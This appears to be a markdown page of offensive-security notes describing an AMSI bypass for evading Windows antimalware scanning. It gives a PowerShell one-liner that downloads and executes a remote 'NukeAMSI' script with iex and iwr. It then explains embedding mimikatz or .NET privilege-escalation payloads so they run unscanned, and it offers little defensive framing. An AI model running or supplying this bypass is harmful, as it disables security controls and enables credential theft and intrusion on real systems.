 # Defense Evasion: AMSI Bypass

## How it work

This technique based on some methods to dealing with the AMSI (Antimalware Scan Interface) like exploiting the amsi.dll and/or relevent service.

Hence within succession we can bypass antimalware scan from modern AV, not only Windows but also others as most is using the same AMSI service.

## Methods

### NukeAMSI

#### What is this

A new attack that targeting to a bug in `amsi.dll` that allow user to write on some code address

#### Running

You can download script from [NukeAMSI.ps1](https://github.com/anonymous300502/Nuke-AMSI/blob/main/NukeAMSI.ps1) then run in powershell, or invoke by running:
```powershell
iex (iwr "https://raw.githubusercontent.com/anonymous300502/Nuke-AMSI/refs/heads/main/NukeAMSI.ps1" -UseBasicParsing).Content
```

Then we can running powershell script without being scanned by AMSI

#### Usage

- Powershell script (.ps1): We can directly run it
- Native PE Bynary: We can embed it into a powershell script like how they embed `mimikatz.exe` into [Invoke-Mimikatz.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1)
- .NET PE Binary: 
    - I have tested this with [Invoke-BadPotato.ps1](https://github.com/Zanitas404/Invoke-BadPotato/blob/main/Invoke-BadPotato.ps1) and other .NET binary, but I always get this error
      ![image](https://github.com/user-attachments/assets/8db04ce3-3282-4db9-b203-b95f2d52901e)

    - Thanks to [Vixx's repo](https://github.com/V-i-x-x/AMSI-BYPASS/tree/main), I have done some research and successful deal with this problem
    - Now we should run this [Invoke-ClrBypass.ps1]() before running our .NET payload, for more detail please refer [this](Payloads\Invoke-ClrBypass\README.md)
